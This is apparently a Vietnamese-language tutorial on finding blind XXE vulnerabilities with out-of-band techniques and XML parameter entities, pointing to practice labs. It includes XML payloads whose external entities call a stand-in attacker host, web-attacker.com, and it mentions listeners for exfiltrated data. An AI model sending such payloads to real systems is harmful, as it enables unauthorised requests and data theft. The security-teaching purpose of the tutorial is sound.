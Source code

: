 # Overview:

Lỗ hổng XXE mù (Blind XXE) xảy ra khi ứng dụng bị tổn thương bởi XXE injection nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào trong phản hồi. Điều này làm cho việc khai thác blind XXE khó khăn hơn so với các lỗ hổng XXE thông thường.

Để tìm và khai thác các lỗ hổng blind XXE, bạn có thể sử dụng các phương pháp sau:

1. Kích hoạt tương tác mạng ngoài phạm vi: Bạn có thể tạo ra các yêu cầu mạng tới các hệ thống bên ngoài mà ứng dụng có thể truy cập. Đồng thời, bạn cần tạo ra một cơ chế để thu thập thông tin hoặc dữ liệu nhạy cảm từ các yêu cầu này. Ví dụ, bạn có thể thiết lập một máy chủ nghe (listener) để nhận dữ liệu exfiltrated từ ứng dụng.

2. Kích hoạt lỗi phân tích XML để thu thập thông tin nhạy cảm: Bạn có thể thử gây ra lỗi phân tích XML bằng cách đưa vào các dữ liệu không hợp lệ hoặc gây ra xung đột trong cú pháp XML. Sau đó, bạn sẽ kiểm tra các thông báo lỗi hoặc thông báo phản hồi từ ứng dụng để tìm thông tin nhạy cảm như đường dẫn tệp, tên người dùng, hoặc thông tin hệ thống khác.

# Phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST):

Bạn có thể phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST) giống như cho các cuộc tấn công XXE SSRF, nhưng kích hoạt tương tác mạng ngoài phạm vi đến một hệ thống mà bạn kiểm soát. Ví dụ, bạn sẽ xác định một thực thể bên ngoài như sau:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Thông qua việc xác định thực thể bên ngoài này, bạn có thể tạo ra các yêu cầu HTTP hoặc DNS đến hệ thống mà bạn kiểm soát. Bằng cách theo dõi các yêu cầu đến hệ thống của bạn, bạn có thể xác định thông tin nhạy cảm hoặc thu thập dữ liệu từ ứng dụng mục tiêu.

Thực hành ở đây.

Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do việc kiểm tra đầu vào bởi ứng dụng hoặc việc tăng cường bảo mật của trình phân tích cú pháp XML đang được sử dụng. Trong tình huống này, bạn có thể sử dụng thực thể XML thông số thay thế. Thực thể XML thông số là một loại đặc biệt của thực thể XML chỉ có thể được tham chiếu ở nơi khác trong DTD. Đối với mục đích hiện tại, bạn chỉ cần biết hai điều. Thứ nhất, khai báo một thực thể XML thông số bao gồm ký tự phần trăm trước tên enitity:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
và

```xml
%myparameterentity;
```
Điều này có nghĩa là bạn có thể kiểm tra các lỗ hổng XXE mù bằng cách sử dụng phát hiện ngoài dòng thông qua các thực thể XML thông số như sau:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Thực hành ở đây.

